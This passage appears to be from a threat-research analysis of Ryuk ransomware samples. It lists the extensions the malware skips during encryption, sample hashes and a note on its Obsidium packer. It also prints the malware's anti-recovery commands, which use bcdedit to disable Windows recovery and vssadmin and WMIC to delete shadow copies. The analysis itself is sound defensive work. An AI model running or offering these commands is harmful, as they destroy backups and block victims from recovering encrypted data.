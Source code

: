```
// List of file extensions to ignore on the encryption process
.dll
.hrmlog
.exe
.ini
.lnk
.bootmgr
.boot
```

<h4>This disable the windows automatic repair option on the boot and delete the VSS saves for avoid to recovery the data :</h4>

```
cmd.exe /c "bcdedit /set {default} recoveryenabled No & bcdedit /set {default}"
cmd.exe /c "bootstatuspolicy ignoreallfailures"
cmd.exe /c "vssadmin.exe Delete Shadows /all /quiet"
cmd.exe /c "WMIC.exe shadowcopy delete"
```

<h4>In searching on the archives, we can note that the same exact behavior that analysed on March 2020 by Fortinet. This allows to deduce that the group have build in emergency somes payloads for exploit quickly the vulnerability.</h4>

<table>
    <tr>
        <th>Hash</th>
        <th>Extension</th>
        <th>Sig</th>
    </tr>
    <tr>
        <td>bbbf38de4f40754f235441a8e6a4c8bdb9365dab7f5cfcdac77dbb4d6236360b</td>
        <td><center>.RYK</center></td>
        <td>RUYK_Sept_V1_WOL</td>
    </tr>
    <tr>
        <td>cfe1678a7f2b949966d9a020faafb46662584f8a6ac4b72583a21fa858f2a2e8</td>
        <td><center>.RYK</center></td>
        <td>RUYK_Sept_V1_WOL</td>
    </tr>
    <tr>
        <td>bbbf38de4f40754f235441a8e6a4c8bdb9365dab7f5cfcdac77dbb4d6236360b</td>
        <td><center>.RYK</center></td>
        <td>RUYK_Sept_V1_WOL</td>
    </tr>
</table>

<h4>Reference : </h4>
<a href="https://www.fortinet.com/blog/threat-research/ryuk-revisited-analysis-of-recent-ryuk-attack">Ryuk Revisited - Analysis of Recent Ryuk Attack</a>

<h4>Some samples on lastest pool of September are packed with another packer "Obsidium" which use lot Xor and permutation operations for load this own dll on a new thread in decoding finally the encrypted data with the code inside the obsidium dll.</h4>
